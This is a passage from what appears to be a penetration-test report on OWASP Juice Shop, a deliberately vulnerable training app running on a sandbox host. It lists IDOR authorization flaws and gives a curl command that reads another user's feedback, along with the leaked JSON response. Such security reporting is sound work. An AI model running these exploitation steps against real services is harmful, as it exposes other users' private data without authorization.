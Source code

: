 3. Access different user's basket (Basket ID 2) showing systematic issue

**Proof of Impact:**
- **Unauthorized basket access** - viewing other users' shopping data
- **Financial information exposed** including product preferences and quantities
- **Total basket value revealed** (~$20.94 for accessed basket)
- **Systematic vulnerability** affecting all user baskets

### AUTHZ-VULN-03: Feedback Data Access (IDOR)

**Summary:**
- **Vulnerable location:** GET /api/Feedbacks/:id endpoint
- **Overview:** Authenticated users can access other users' private feedback
- **Impact:** Personal opinion and rating data exposure
- **Severity:** Medium

**Prerequisites:**
Valid authentication token (any role)

**Exploitation Steps:**

1. Access another user's feedback (Feedback ID 1):
```bash
curl -s -i "http://juice-shop.sandbox.local:3001/api/Feedbacks/1" \
  -H "Authorization: Bearer [CUSTOMER_TOKEN]"
```

2. Receive unauthorized feedback data:
```json
{
  "status": "success",
  "data": {
    "UserId": 1,
    "id": 1,
    "comment": "I love this shop! Best products in town! Highly recommended! (***in@juice-sh.op)",
    "rating": 5
  }
}
```

**Proof of Impact:**
- **Private feedback exposed** including personal comments and ratings
- **User identification** through partial email disclosure (***in@juice-sh.op)
- **Opinion data leaked** revealing user satisfaction and preferences
- **Cross-user access** without ownership validation

### AUTHZ-VULN-05: Basket Item Modification (IDOR)

**Summary:**
- **Vulnerable location:** PUT /api/BasketItems/:id endpoint
- **Overview:** Authenticated users can modify other users' basket items
- **Impact:** Financial manipulation and shopping cart tampering
- **Severity:** High

**Prerequisites:**
Valid authentication token (any role)
